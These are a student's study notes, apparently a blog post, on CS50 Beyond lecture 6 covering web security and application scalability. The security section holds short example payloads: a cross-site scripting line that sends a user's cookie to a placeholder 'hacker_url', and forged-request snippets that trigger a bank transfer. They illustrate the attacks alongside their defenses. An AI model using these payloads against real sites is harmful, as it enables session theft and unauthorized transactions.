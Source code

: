 ```yaml
---
date: '2019-06-09'
title: "CS50 Beyond lecture 6 - Security & Scalability"
description: CS50 Beyond lecture 6 정리
image: ''
tags: ['CS50', 'CS50 Beyond', 'Security', 'Scalability']
---
```

> Harvard's CS50 Beyond lecture 6 정리

### Security
making sure that you, your application, and your users are protected by potential security threats and vulnerabilities

#### Git Vulnerabilities
- github repos: anyone can look at the code to take advantage of potential vulnerabilites (bcuz public as default)
    - ex. git commit history: credentials can be exposed
- solutions: 
    - change the credentials
    - git purge (overwrite history)

#### HTML Vulnerabilities
- phishing links: url leads to somewhere different from specified content

#### HTTPS and Cryptography
- securely deliver data from one location to another location
- use __Cryptography__
    - __Secret-key Cryptography__: use a singly key to encrypt and decrypt messages (key & ciphertext is transferred)
        - problem: key is also sent through the internet
    - __Public-key Cryptography__: use public key to encrypt and private key to decrypt message 
        - receiver generates private and public key, shares only the public key to sender, and sender transfers ciphertext which receiver can decrypt using private key

#### Environment Variables
- don't store credentials in repos
- store credentials in environment variables

#### Database Vulnerabilities
database security concerns
- passwords: passwords can be exposed
    - solution: store hashed version of passwords
- data leaks:
    - ex. forgot your password message: indication of which id exists or not
    - ex. response time: can retrieve information based on response time

#### SQL Injection
- database queries that can inject problems to disrupt the SQL database
- solution: use libraries, escape characters

#### JavaScript Vulnerabilities
javascript opens a whole host of potential security vulnerabilites
- __Cross-site Scripting__: injecting javascript to expose private information
```html
<!-- injecting javascript into the request path (url) to reveal cookie of user -->
/<script>document.write('img src="hacker_url?cookie=" + document.cookie + ">"</script>
```
- __Cross-site Request Forgery__: injecting methods to take advantage of requests to expose private information
```html
<!-- automatically fetches src (using request link) leading to transferring money to someone using credentials -->
<img src="http://yourbank.com/transfer?to=brian&amt=2800" />
<!-- another exampler of cross-site request forgery using a form -->
<form action="http://yourbank.com/transfer" method="post">
    <input type="hidden" name="to" value="brian">
    <input type="hidden" name="amt" value="2800">
    <input type="submit" value="click!">
</form>
```
- solution: use a CSRF(Cross-site Request Forgery) token for transfers
    - each form has token and this is validated when sent to server 

### Scalability
what we need to consider for having multiple people using the same application at the same time
- __vertical scaling__: increase the size of the server
- __horizontal scaling__: increase the number of servers
    - use load balancing to handle which server the client should be directed to

#### Benchmarking
load testing the application to figure out how many users the server can handle

#### Load Balancing
- __load balancer__: device that handles which server the user should be directed to
- __Load Balancing Methods__: deciding which server to send the user
    - __fewest connections__: send user to the server w/ the fewest users; can spread out users but may be potentially computationally expensive 
    - __random choice__: randomly assign server; quick but may flock to one server
    - __round robin__: go around each server
- __Session-aware Load Balancing__: preserving sessions while using load balancing to serve pages (to solve problems where user is directed to different servers, losing session information)
    - sticky sessions: load balancer remembers the particular server the user was first directed to
    - sessions in database: store sessions in the database
    - client-side session: store the session in the client-side

#### Auto-scaling
automatically grows or shinks amount of servers based upon the load of the application
- cf) use heartbeat to detect which servers are alive or down

#### Scaling Databases
how to scale databases
- __Database Partitioning__: separate tables in some way
- __Database Replication__: having multiple databases
    - __singly-primary replication__: can only write to the primary database while reading can be distributed to any of the databases (when written to primary db, updates other database based on the primary db)
    - __multi-primary replication__: each db is writable and readable, need to update all other databases when one database is changed
- __Caching__: store data in cache to prevent constantly sending requests to database
    - __client-side caching__: adding cache-control in HTTP header in response (from server) to indicate redundant data to be retrieved from cache next time
        - __entity tag__: entity tag to indicate the version of the document to prevent redundant requests for page
```http
Cache-control: max-age=86400
Etag: "74682038474827847837E83393739"
```
    - __server-side caching__: servers accessing cache instead of database for recent information